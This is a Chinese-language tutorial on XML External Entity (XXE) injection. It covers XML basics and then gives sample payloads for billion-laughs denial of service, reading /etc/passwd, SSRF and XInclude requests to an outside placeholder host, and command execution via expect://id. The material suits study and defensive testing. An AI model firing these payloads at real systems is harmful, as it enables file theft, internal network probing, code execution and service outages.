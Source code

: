 ## 概要

XXE漏洞，就是外部传入XML代码。 XXE英文全称XML External Entity Injection，中文为XML外部实体注入，攻击利用的焦距点是XML的DTD实体，可以利用其内部声明或外部引用来构造攻击，从而实现读取文件、执行系统命令、探测端口等目的。

## XML基础

XML 指可扩展标记语言（eXtensible Markup Language），是一种用于标记电子文件使其具有结构性的标记语言，被设计用来传输和存储数据。XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素。目前，XML文件作为配置文件（Spring、Struts2等）、文档结构说明文件（PDF、RSS等）、图片格式文件（SVG header）应用比较广泛。 XML 的语法规范由 DTD （Document Type Definition）来进行控制。

## 基本语法

XML 文档在开头有 **<?xml version="1.0" encoding="UTF-8" standalone="yes"?>** 的结构，这种结构被称为 XML prolog ，用于声明XML文档的版本和编码，是可选的，但是必须放在文档开头。 除了可选的开头外，XML 语法主要有以下的特性：

-   所有 XML 元素都须有关闭标签
-   XML 标签对大小写敏感
-   XML 必须正确地嵌套
-   XML 文档必须有根元素
-   XML 的属性值需要加引号

另外，XML也有CDATA语法，用于处理有多个字符需要转义的情况。

## XXE

当允许引用外部实体时，可通过构造恶意的XML内容，导致读取任意文件、执行系统命令、探测内网端口、攻击内网网站等后果。一般的XXE攻击，只有在服务器有回显或者报错的基础上才能使用XXE漏洞来读取服务器端文件，但是也可以通过Blind XXE的方式实现攻击。

## 攻击方式

### 拒绝服务攻击

```
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;">
]>
&a2;
```

若解析过程非常缓慢，则表示测试成功，目标站点可能有拒绝服务漏洞。 具体攻击可使用更多层的迭代或递归，也可引用巨大的外部实体，以实现攻击的效果。

### 文件读取

```
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
&file;
```

### SSRF

```
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://publicServer.com/" [
<!ELEMENT data (#ANY)>
]>
4
```
### RCE

```
<?xml version="1.0"?>
<!DOCTYPE GVI [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "expect://id" >]>
<catalog>
   <core id="test101">
      <description>&xxe;</description>
   </core>
</catalog>
```

### XInclude

```
<?xml version='1.0'?>
<xi:include href="http://publicServer.com/file.xml"></xi:include>
```

## 参考链接编辑

-   [未知攻焉知防 XXE漏洞攻防](https://security.tencent.com/index.php/blog/msg/69)